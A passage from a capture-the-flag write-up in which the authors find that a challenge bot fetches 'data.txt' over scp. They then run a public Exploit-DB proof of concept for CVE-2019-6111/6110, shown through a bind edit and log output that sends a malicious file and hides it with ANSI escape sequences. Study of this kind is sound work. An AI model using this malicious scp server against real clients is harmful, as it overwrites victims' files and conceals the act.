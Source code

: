 ~~~
$ python3 demo_server.py 
Read key: 60733844cb5186657fdedaa22b5a57d5
Listening for connection ...
Got a connection!
bob 
Authenticated!
scp: 
~~~

And just like this, two of my hypothesis went right out the window: Bob was authenticating with a blank password (sad face) and he was using `scp`, not `SFTP`. Even worse, with our implementation of the SSH server, we weren't seeing the file being requested, so we couldn't serve it to see what happened next.

## `data.txt` and `generatereport`

At this point, a lot of googling, frustrated screams and saddening sobs happened. We tried to make `scp` work server-side with `paramiko`, but we were constantly hitting roadblocks. After a while, I desperately cried for help in our team chat, and one of our members suggested using [this amazing PoC for CVE-2019-6111 and CVE-2019-6110](https://www.exploit-db.com/exploits/46193). Even though we had thought of client-side SSH exploits, what interested us the most was the working `scp` server that returned any file that was requested. Yeah, umpteenth reminder that there are people out there way better than me at anything!

But well, let's give it a try! Just by changing interface it listens on...

~~~python
sock.bind(('0.0.0.0', 2222))
sock.listen(0)
logging.info('Listening on port 2222...')
~~~

And giving our IP to Bob once more...

~~~
$ python3 46193.py 
INFO:root:Creating a temporary RSA host key...
INFO:root:Listening on port 2222...
INFO:root:Received connection from 34.76.117.194:38910
INFO:paramiko.transport:Connected (version 2.0, client OpenSSH_5.9p1)
INFO:paramiko.transport:Auth rejected (none).
INFO:root:Authenticated with bob:
INFO:paramiko.transport:Auth granted (password).
INFO:root:Opened session channel 0
INFO:root:Approving exec request: scp -f -- data.txt
INFO:root:Sending requested file "data.txt" to channel 0
INFO:root:Sending malicious file "exploit.txt" to channel 0
INFO:root:Covering our tracks by sending ANSI escape sequence
INFO:paramiko.transport:Disconnect (code 11): disconnected by user
~~~

Wow, just with that we see that `data.txt` is the file that Bob requests! And by pure luck it seems the exploit works too. It's just we didn't know what we would want to exploit with it just yet. But Bob said he would "come back to us" with the result of his "job", so let's listen for incoming connections again and see what happens:
